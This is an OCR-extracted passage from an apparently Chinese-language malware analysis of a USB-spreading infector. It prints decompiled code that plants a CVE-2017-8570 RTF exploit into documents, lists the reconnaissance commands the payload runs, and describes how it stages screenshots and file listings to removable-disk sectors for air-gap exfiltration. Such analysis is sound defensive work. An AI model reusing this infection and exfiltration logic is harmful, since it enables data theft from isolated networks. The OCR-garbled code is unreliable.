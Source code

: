 lemset(lpBuffer, 0, nNumberofBytesToRead $^+$ 564031);   
.f （ ReadFile(hFile, lpBuffer, nNumberOfBytesToRead, &NumberOfBytesRead, 0)) CloseHandle(hFile);   
memcpy((char \*)lpBuffer $^+$ nNumber0fBytesToRead - 1, a0bject0bjhtmlV, 0x89B3Fu);// CVE-2017-8570 rtf   
lstrcpyW(&FileName, pszPath);   
PathRemoveExtensionW(&FileName); $\downarrow47=$ -100;   
$v48~=~-40$   
$\vee49~=~-43$ 5 $\vee50~=~-45$ 5 v51 $=$ -118; $v52~=~-117$ $\vee53~=~-7;$ $\vee54=-38$ 5 v55 $=$ 39; v56 $=$ -102;   
sub_402020((int)&v47, 0xAu, (int)&v44, (unsigned int \*)&v23);   
lstrcatW(&FileName, &v44);   
while ( !DeleteFileW(pszPath) && PathFileExistsW(pszPath)) Sleep(0x1388u); hFile $=$ CreateFileW(&FileName, Ox40000000u, 2u, 0, 2u, 0x80u, 0);   
if （hfile $==$ (HANDLE)-1 ) free(lpBuffer); result $=0$ else if ( WriteFile(hFile, lpBuffer, nNumberOfBytesToRead $^+$ 564031, &Number0fBytesRead, 0)) free(lpBuffer); CloseHandle(hFile); result $\mathit{\Theta}=\mathit{\Omega}^{1}.$ else  

此时，完成感染的过程。接下来，当该存有感染后文档的文件，通过可移动磁盘进入到其他设备，甚至物理隔离网络后，若运行感染后的文档文件，就会触发CVE-2017-8570漏洞，进而  

泄露机器上的敏感信息。  

运行感染后的文件后，首先会触发脚本inteldriverupd1.sct:  

![](https://cdn-mineru.openxlab.org.cn/extract/7ccdef71-ae93-4892-ad08-5a3ff79187e7/2e1270f091e040d69ad8507e71ba8dae8b9683241793a225fa1d3ac578c66640.jpg)  

脚本的功能就为执行最终的恶意文件taskhost.exe。该恶意文件的主要功能为收集信息，然后写入可移动磁盘的扇区中：  

1）执行以下命令收集系统信息存到%allusersprofile%\CommCache\S-{计算机名}.rtt  

systeminfo   
tasklist /v   
netstat -ano   
ipconfig /all   
arp -a   
route print   
SC query wlansvc   
netsh wlan show all   
netsh wlan showprofiles   
netsh wlan showinterface   
netsh wlan shownetworks mode $\underline{{\underline{{\mathbf{\delta\pi}}}}}$ Bssid  

2）遍历本地磁盘，将全部文件目录存到%allusersprofile%\CommCache\C-{时间}.rtt  

3）每5分钟截屏一次，保存到%allusersprofile%\AssemblyDataCache\def{时间}.jpg  

4）加密截屏文件到%allusersprofile%\CommCache\def{时间}.tmp收集完所有信息后，会创建%allusersprofile%\CommCache\complete.txt，当检测到complete.txt的时候，会认为收集信息工作已经结束。开始做后续的信息处理：  

1）将CommCache目录重命名为CommCache_{rand}，并压缩成CommCache_{rand}.zip  

![](https://cdn-mineru.openxlab.org.cn/extract/7ccdef71-ae93-4892-ad08-5a3ff79187e7/e82ba6bc120b466f2d6f8311a06253370525f306c29da31eb6284ce8d9790481.jpg)  

2）不断检测可移动磁盘，将CommCache_{rand}.zip内容直接以读写扇区的方式写入磁盘偏移   
1000000000处，并以HDdE&mE作为标记：   
1int _usercall sub_407840@<eax>(const void \*a1@<edx>, char a2@<cl>, DwoRD nN   
2{   
3 char v4; // bl   
4 void \*v5; // edi   
5 HANDLE v6; // ebx   
6 int result; // eax   
7 int v8; // eax   
LPCVoID v9; // [esp+8h][ebp-1A4h]   
9 void \*lpBuffer; // [esp+10h] [ebp-19Ch]   
10 LONG 1DistanceToMove; // [esp+14h] [ebp-198h]   
11 CHAR Str1; // [esp+18h] [ebp-194h]   
12 int v13; // [esp+28h] [ebp-184h]   
13 DWORD BytesReturned; //[esp+13Ch][ebp-70h]   
14 DWORD Number0fBytesRead; // [esp+140h] [ebp-6Ch]   